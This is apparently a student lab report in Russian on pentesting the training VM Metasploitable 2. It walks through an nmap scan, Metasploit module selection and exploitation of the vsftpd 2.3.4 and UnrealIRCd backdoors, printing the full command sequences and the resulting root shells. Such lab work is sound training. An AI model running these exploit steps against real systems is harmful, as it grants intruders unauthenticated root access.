




#### **Исследование Metasploitable 2 с помощью Metasploit**

---

В данной работе предлагается освоить базовый цикл работы с ```Metasploit Framework``` на учебной цели ```Metasploitable 2``` и научиться обосновывать выбор вектора атаки на основе результатов разведки.

--- 

#### Реалиазация работы

---

1. Подготовка стенда:

+ Установка эмултора `UTM` на `MacOS:` [тык](https://mac.getutm.app)

+ Загрузка образа виртуального жесткого диска `Metasploitable 2` с ОС, содержащей уязвимости, из официального источника: [тык](https://sourceforge.net/projects/metasploitable/). Получили файл `Metasploitable.vmdk`

+ Создание виртаульной машины в `UTM:`

    - Тип эмуляции: `x86_64`

    - Указан сущетсвующий виртуальный диск: `.vmdk`

Получили следующие настройки системы:





Используется сеть с мостом, чтобы виртуальная машина получила IP-адрес из той же локальной сети, что и хост (Mac).

+ Запуск `VM` с логином и паролем `msfadmin:`





+ В консоли `VM` выполнена команда `ip a`, IP-адрес цели: `127.20.10.3`

+ Проверка видимости для атакующей машины:

```bash
cd /opt/metasploit-framework/bin
./msfconsole
ping 172.20.10.3
```

Получили вывод:

```bash
[*] exec: ping 172.20.10.3

PING 172.20.10.3 (172.20.10.3): 56 data bytes
64 bytes from 172.20.10.3: icmp_seq=0 ttl=64 time=4.905 ms
64 bytes from 172.20.10.3: icmp_seq=1 ttl=64 time=0.575 ms
64 bytes from 172.20.10.3: icmp_seq=2 ttl=64 time=0.938 ms
64 bytes from 172.20.10.3: icmp_seq=3 ttl=64 time=1.530 ms
64 bytes from 172.20.10.3: icmp_seq=4 ttl=64 time=1.129 ms
64 bytes from 172.20.10.3: icmp_seq=5 ttl=64 time=0.954 ms
```

Итак, лабораторный стенд подготовлен.

---

2. Выполняем разведку с использованием `nmap:`

```bash
sudo nmap -sV -O 172.20.10.3
```

Получили ответ:

```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-18 19:57 +0300
Nmap scan report for 172.20.10.3
Host is up (0.00085s latency).
Not shown: 978 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8180/tcp open  unknown
MAC Address: E2:F0:9E:15:BF:6C (Unknown)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.33 seconds
```

---

3. Сканирование завершено. По результатам были выявлены следующие сервисы, представляющие интерес для эксплуатации:

| Порт | Сервис | Версия | Потенциальная уязвимость | 
|------|--------|--------|--------------------------|
| `21/tcp` | `vsftpd` | 2.3.4 | FTP-сервер. Содержит известный бэкдор, позволяющий удалённо получить root `shell.` |
| `6667/tcp` | `UnrealIRCd` | – | Бэкдор в версиях 3.2.8 позволяет выполнить произвольную команду и получить `shell.` |
| `1524/tcp` | `bindshell` |  Служба от разработчиков | Служба, которая при подключении сразу предоставляет `shell` с `root`-правами. Учебная уязвимость. |

---

4. Изучение векторов атаки

+ `vsftpd`

    - Поиск модуля: `search vsftpd`

    Получаем вывод:

    ```bash
        Matching Modules
        ================

        #  Name                                  Disclosure Date  Rank       Check  Description
        -  ----                                  ---------------  ----       -----  -----------
        0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
        1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  Yes    VSFTPD 2.3.4 Backdoor Command Execution


        Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
    ```

    Вывод показывает, что Metasploit нашёл два модуля, связанных с vsftpd:

    - Модуль для отказа в обслуживании (DoS) против vsftpd 2.3.2. Рейтинг normal, есть проверка цели (Check: Yes).

    - `exploit/unix/ftp/vsftpd_234_backdoor` — эксплойт для бэкдора в vsftpd 2.3.4. Рейтинг excellent (высокая надёжность), также есть проверка.

    Далее перейдем к эксплойту:

    * ```use exploit/unix/ftp/vsftpd_234_backdoor```
    
    ```bash
    [*] Using configured payload cmd/linux/http/x86/meterpreter_reverse_tcp
    ```

    * `info:`

    ```bash
        Name: VSFTPD 2.3.4 Backdoor Command Execution
        Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix, Linux
        Arch: cmd
    Privileged: Yes
        License: Metasploit Framework License (BSD)
        Rank: Excellent
    Disclosed: 2011-07-03

    Provided by:
    hdm <x@hdm.io>
    MC <mc@metasploit.com>
    g0tmi1k

    Module side effects:
    unknown-side-effects

    Module stability:
    unknown-stability

    Module reliability:
    unknown-reliability

    Available targets:
        Id  Name
        --  ----
    =>  0   Linux/Unix Command

    Check supported:
    Yes

    Basic options:
    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                        using-metasploit.html
    RPORT   21               yes       The target port (TCP)

    Payload information:
    Space: 2000
    Avoid: 0 characters

    Description:
    This module exploits a malicious backdoor that was added to the VSFTPD download
    archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
    June 30th 2011 and July 1st 2011 according to the most recent information
    available. This backdoor was removed on July 3rd 2011.

    References:
    https://nvd.nist.gov/vuln/detail/CVE-2011-2523
    OSVDB (73573)
    http://pastebin.com/AetT9sS5
    http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


    View the full module info with the info -d command.
    ```

    * `show options`

    ```bash
        Module options (exploit/unix/ftp/vsftpd_234_backdoor):

    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                        /using-metasploit.html
    RPORT   21               yes       The target port (TCP)


    Payload options (cmd/linux/http/x86/meterpreter_reverse_tcp):

    Name            Current Setting  Required  Description
    ----            ---------------  --------  -----------
    FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
    FETCH_DELETE    false            yes       Attempt to delete the binary after execution
    FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles,
                                                requires Linux ≥3.17 (for Python variant also Python ≥3.8, tested shell
                                                s are sh, bash, zsh) (Accepted: none, python3.8+, shell-search, shell)
    FETCH_SRVHOST                    no        Local IP to use for serving payload
    FETCH_SRVPORT   8080             yes       Local port to use for serving payload
    FETCH_URIPATH                    no        Local URI to use for serving payload
    LHOST                            yes       The listen address (an interface may be specified)
    LPORT           4444             yes       The listen port


    When FETCH_COMMAND is one of CURL,GET,WGET:

    Name        Current Setting  Required  Description
    ----        ---------------  --------  -----------
    FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to
                                            the shell.


    When FETCH_FILELESS is none:

    Name                Current Setting  Required  Description
    ----                ---------------  --------  -----------
    FETCH_FILENAME      mIeCDXWNA        no        Name to use on remote system when storing payload; cannot contain sp
                                                    aces or slashes
    FETCH_WRITABLE_DIR  ./               yes       Remote writable dir to store payload; cannot contain spaces


    Exploit target:

    Id  Name
    --  ----
    0   Linux/Unix Command

    View the full module info with the info, or info -d command.
    ```

    На основании вывода команд мы можем заметить, что эксплойт:

    + Работает на ОС: Unix, Linux

    + Поддерживает проверку уязвимости без полноценной эксплуатации `(check)`

    + Описание уязвимости, когда добавлена, кем

    + options показывает параметры, которые нужно добавить:

        - `RHOSTS` – IP-адрес цели (обязательный).

        - `RPORT` – порт FTP (по умолчанию 21).

        - `Payload options` – базовый `payload` и его параметры

+ `UnrealIRCd`

    - Поиск модулей: `search unreal:`

    ```bash
        Matching Modules
        ================

        #  Name                                        Disclosure Date  Rank       Check  Description
        -  ----                                        ---------------  ----       -----  -----------
        0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
        1    \_ target: Automatic                      .                .          .      .
        2    \_ target: UT2004 Linux Build 3120        .                .          .      .
        3    \_ target: UT2004 Linux Build 3186        .                .          .      .
        4  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
        5  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  Yes    UnrealIRCD 3.2.8.1 Backdoor Command Execution


        Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/irc/unreal_ircd_3281_backdoor
    ```

    Видим, что для атаки подходит `exploit/unix/irc/unreal_ircd_3281_backdoor` с `rank=excellent`

    Далее перейдем к эксплойту:

    * ```use exploit/unix/irc/unreal_ircd_3281_backdoor```

    ```bash
    [*] Using configured payload cmd/linux/http/x86/meterpreter/reverse_tcp
    ```

    * `info`

    ```bash
            Name: UnrealIRCD 3.2.8.1 Backdoor Command Execution
        Module: exploit/unix/irc/unreal_ircd_3281_backdoor
    Platform: Unix, Linux
        Arch: cmd
    Privileged: No
        License: Metasploit Framework License (BSD)
        Rank: Excellent
    Disclosed: 2010-06-12

    Provided by:
    hdm <x@hdm.io>
    g0tmi1k

    Module side effects:
    unknown-side-effects

    Module stability:
    unknown-stability

    Module reliability:
    unknown-reliability

    Available targets:
        Id  Name
        --  ----
    =>  0   Linux/Unix Command

    Check supported:
    Yes

    Basic options:
    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                        using-metasploit.html
    RPORT   6667             yes       The target port (TCP)

    Payload information:
    Space: 1024

    Description:
    This module exploits a malicious backdoor that was added to the
    Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
    Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.

    References:
    https://nvd.nist.gov/vuln/detail/CVE-2010-2075
    OSVDB (65445)
    http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt


    View the full module info with the info -d command.
    ```

    * ```show options```

    ```bash
        Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                        /using-metasploit.html
    RPORT   6667             yes       The target port (TCP)


    Payload options (cmd/linux/http/x86/meterpreter/reverse_tcp):

    Name            Current Setting  Required  Description
    ----            ---------------  --------  -----------
    FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
    FETCH_DELETE    false            yes       Attempt to delete the binary after execution
    FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles,
                                                requires Linux ≥3.17 (for Python variant also Python ≥3.8, tested shell
                                                s are sh, bash, zsh) (Accepted: none, python3.8+, shell-search, shell)
    FETCH_SRVHOST                    no        Local IP to use for serving payload
    FETCH_SRVPORT   8080             yes       Local port to use for serving payload
    FETCH_URIPATH                    no        Local URI to use for serving payload
    LHOST                            yes       The listen address (an interface may be specified)
    LPORT           4444             yes       The listen port


    When FETCH_COMMAND is one of CURL,GET,WGET:

    Name        Current Setting  Required  Description
    ----        ---------------  --------  -----------
    FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to
                                            the shell.


    When FETCH_FILELESS is none:

    Name                Current Setting  Required  Description
    ----                ---------------  --------  -----------
    FETCH_FILENAME      ZRWmdAfN         no        Name to use on remote system when storing payload; cannot contain sp
                                                    aces or slashes
    FETCH_WRITABLE_DIR  ./               yes       Remote writable dir to store payload; cannot contain spaces


    Exploit target:

    Id  Name
    --  ----
    0   Linux/Unix Command

    View the full module info with the info, or info -d command.
    ```

    На основании вывода команд мы можем заметить, что эксплойт:

    - Работает на ОС: Unix, Linux.

    - Поддерживает проверку уязвимости без полноценной эксплуатации `(Check: Yes)`.
    
    - Имеет рейтинг `excellent`, но `Privileged: No` — не даёт `root` автоматически.

    - Аналогичный предыдущему эскплойту `payload`

Если говорить про ограничения, то они в первую очередь связаны с завязанностью на конкретные версии, ОС, сетевые условия (`firewall` не блокирует исходящий трафик), привилегии и так далее.

---

5. Реализация эксплуатации для двух независимых векторов атаки и доказательство привелегий:

- `vsftpd 2.3.4`

    + `use exploit/unix/ftp/vsftpd_234_backdoor`

    + `set payload cmd/unix/bind_netcat`

    + `set RHOSTS 192.168.0.14`

    + `set LPORT 4444`

    + `run`

    Вывод:

    ```bash
    [+] 192.168.0.14:21 - Backdoor has been spawned!
    [*] Started bind TCP handler against 192.168.0.14:4444
    [*] Command shell session 1 opened (192.168.0.10:58829 -> 192.168.0.14:4444) at 2026-04-18 23:26:51 +0300


    Shell Banner:
    sh: no job control in this shell
    sh-3.2#
    -----
            
    sh-3.2# 
    ```

    ```bash
    sh-3.2# whoami
    root
    ```

    ```bash
    id
    uid=0(root) gid=0(root)
    ```

    ```bash
    sh-3.2# hostname
    metasploitable
    ```

    ```bash
    sh-3.2# uname -a
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
    ```

- `UnrealIRCd:`

    + `use exploit/unix/irc/unreal_ircd_3281_backdoor`

    +  `set payload cmd/unix/bind_netcat`

    +  `set RHOSTS 192.168.0.14`

    +  `set RPORT 6667`

    + `run`

    Вывод:

    ```bash
    [*] 192.168.0.14:6667 - Connected to 192.168.0.14:6667
    [*] 192.168.0.14:6667 - Sending IRC backdoor command
    [*] Started bind TCP handler against 192.168.0.14:4444
    [*] Command shell session 2 opened (192.168.0.10:59047 -> 192.168.0.14:4444) at 2026-04-18 23:34:01 +0300


    Shell Banner:
    sh: no job control in this shell
    sh-3.2#
    -----
            
    sh-3.2#  
    ```

    ```bash
    sh-3.2# whoami
    root
    ```

    ```bash
    sh-3.2# id
    uid=0(root) gid=0(root)
    ```

    ```bash
    sh-3.2# hostname
    metasploitable
    ```

    ```bash
    sh-3.2# ls -la
    total 396
    drwx------  7 root root   4096 May 20  2012 .
    drwxr-xr-x 94 root root   4096 Apr 18 16:02 ..
    -rw-------  1 root root   1365 May 20  2012 Donation
    -rw-------  1 root root  17992 May 20  2012 LICENSE
    drwx------  2 root root   4096 May 20  2012 aliases
    --w----r-T  1 root root   1175 May 20  2012 badwords.channel.conf
    --w----r-T  1 root root   1183 May 20  2012 badwords.message.conf
    --w----r-T  1 root root   1121 May 20  2012 badwords.quit.conf
    -rwx------  1 root root 242894 May 20  2012 curl-ca-bundle.crt
    -rw-------  1 root root   1900 May 20  2012 dccallow.conf
    drwx------  2 root root   4096 May 20  2012 doc
    --w----r-T  1 root root  49552 May 20  2012 help.conf
    -rw-------  1 root root   1736 Apr 18 16:02 ircd.log
    -rw-------  1 root root      6 Apr 18 16:02 ircd.pid
    -rw-------  1 root root      4 Apr 18 16:32 ircd.tune
    drwx------  2 root root   4096 May 20  2012 modules
    drwx------  2 root root   4096 May 20  2012 networks
    --w----r-T  1 root root   5656 May 20  2012 spamfilter.conf
    drwx------  2 root root   4096 Apr 18 16:02 tmp
    -rwx------  1 root root   4042 May 20  2012 unreal
    --w----r-T  1 root root   3884 May 20  2012 unrealircd.conf
    ```

    ```bash
    sh-3.2# uname -a
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
    ```

--- 

#### Итог

В ходе работы проведен пентест `Metasploit 2.` Пентест включал применение основных шагов: `сканирование портов на хосте при помощи nmap,` а также `эксплуатацию уязвимостей в конкретных сервисах на хосте с помощью фреймворака metasploit.` Использованы два независимых вектора атаки: эксплуатация бэкдора в `vsftpd 2.3.4` и бэкдора, внедрённого в `версию 3.2.8.1 UnrealIRCd.` Оба вектора позволили получить `root-доступ` к системе, что подтверждает высокую критичность уязвимостей, не требующих аутентификации. 